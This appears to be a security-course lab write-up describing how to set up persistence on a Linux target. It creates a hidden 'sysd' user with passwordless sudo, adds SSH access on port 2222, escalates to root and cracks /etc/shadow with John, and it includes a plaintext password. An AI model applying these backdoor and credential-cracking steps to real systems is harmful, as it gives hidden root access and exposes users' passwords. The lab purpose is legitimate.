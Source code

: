 # Advanced Bash - Owning the System

Step 1: Shadow People
- 1. Create a secret user named sysd. Make sure this user doesn't have a home folder created:
  - sudo useradd --system --no-create-home sysd

![](/Linux/Images/AB-1-create-user.png)


- 2. Give your secret user a password:
  - Sudo passwd sysd

![](/Linux/Images/AB-2-password.png)

- 3. Give your secret user a system UID < 1000
    - sudo usermod -u 997 sysd

![](/Linux/Images/AB-3-group.png)


- 4. Give your secret user the same GID:
    - sudo groupmod -g 997 sysd

![](/Linux/Images/AB-3-gid.png)

- 5. Give your secret user full sudo access without the need for a password:
    - sudo visudo

![](/Linux/Images/AB-5-visudo.png)

- 6. Test that sudo access works without your password:
    - su sysd
    - Passw0rd

![](/Linux/Images/AB-6-test-access.png)


Step 2: Smooth Sailing
- 1. Edit the sshd_config file:
  - sudo nano /etc/ssh/sshd_config

![](/Linux/Images/AB-2.1-nano-sshd.png)

![](/Linux/Images/AB-2.1-nano.png)


Step 3: Testing Your Configuration Update
- 1. Restart the SSH service:
  - systemctl restart ssh

![](/Linux/Images/AB-3.1-restart.png)


- 2. Exit the root account

- 3. SSH to the target machine using your sysd account and port 2222:
  - ssh sysd@192.168.1.23 -p 2222

![](/Linux/Images/AB-3.3-port222.png)


  - 4. Use sudo to switch to the root user:
    - sudo su root

![](/Linux/Images/AB-3.4-su-root.png)



Step 4: Crack All the Passwords
- 1. SSH back to the system using your sysd account and port 2222:
  - ssh sysd@192.168.1.23 -p 22

![](/Linux/Images/AB-4.1-ssh-p222.png)

- 2. Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
  - sudo su root
  - john /etc/shadow

![](/Linux/Images/AB-4.2-john.png)
